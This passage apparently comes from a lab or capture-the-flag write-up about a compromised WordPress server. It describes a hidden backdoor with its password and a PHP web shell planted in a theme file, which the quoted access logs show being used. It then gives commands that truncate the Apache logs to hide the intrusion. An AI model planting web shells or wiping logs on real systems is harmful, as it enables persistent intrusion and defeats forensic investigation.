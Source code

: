 In two password prompt above, the password was: `PlopPlop1337`. The system is fully compromised, with perennial access to the system!

<center>
![](https://media.giphy.com/media/LwBqgdCi3nenTBU4wU/giphy.gif)
</center>

### Cleaning time

Ok, the backdoor is in place and well hidden. Now it's time to clean our mess. Here some elements to remove:

* Apache2 logs
* MySQL logs
* Authentication logs
* PHP arbitrary code in the WordPress
* __odie__ and __root__ history

I probably forget things to remove. Some are well known, but others not at all. I must have really forgot things :')

#### Apache logs

The `access.log` file contains Apache2 server logs, each page requested, http method and so on are stored in this file.

I just have to find when I started to play with my arbitrary code in the WordPress theme:

```bash
backdoor $ cat access.log | less -N 
[Research on "x="]
    666 zer.php&theme=rock-band" "Mozilla/5.0 (X11; Linux x86_64; rv:64.0) Gecko/20100101 Firefox/64.0"
    667 192.168.122.1 - - [27/Dec/2018:00:35:10 +0100] "GET /wp-content/themes/rock-band/inc/customizer.php HTTP/1.1" 500 185 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:64.0) 
    667 Gecko/20100101 Firefox/64.0"
    668 192.168.122.1 - - [27/Dec/2018:00:35:15 +0100] "GET /wp-content/themes/rock-band/inc/customizer.php?x=ls HTTP/1.1" 500 185 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:6    668 4.0) Gecko/20100101 Firefox/64.0"
    669 192.168.122.147 - - [27/Dec/2018:00:35:21 +0100] "GET /wp-admin/theme-editor.php?theme=rock-band&file=inc%2Fcustomizer.php&wp_scrape_key=370c7cd663254ecfd57bd42d35e    669 318a7&wp_scrape_nonce=1674105339 HTTP/1.1" 200 12023 "-" "WordPress/5.0.2; http://192.168.122.147"

backdoor $ cat access.log | head -n 666 > access.log.bak 
backdoor $ mv access.log.bak access.log 
```

Moreover, we're speaking about Iron Maiden since the beginning, 666 is a good number!

#### MySQL logs

In `/var/log/mysql/` folder there is only one file: `error.log`. It does not contains that much relevant for a forensic analyst. However, there are `.mysql_history` file in each users folders: `/root` and `/home/odie`.
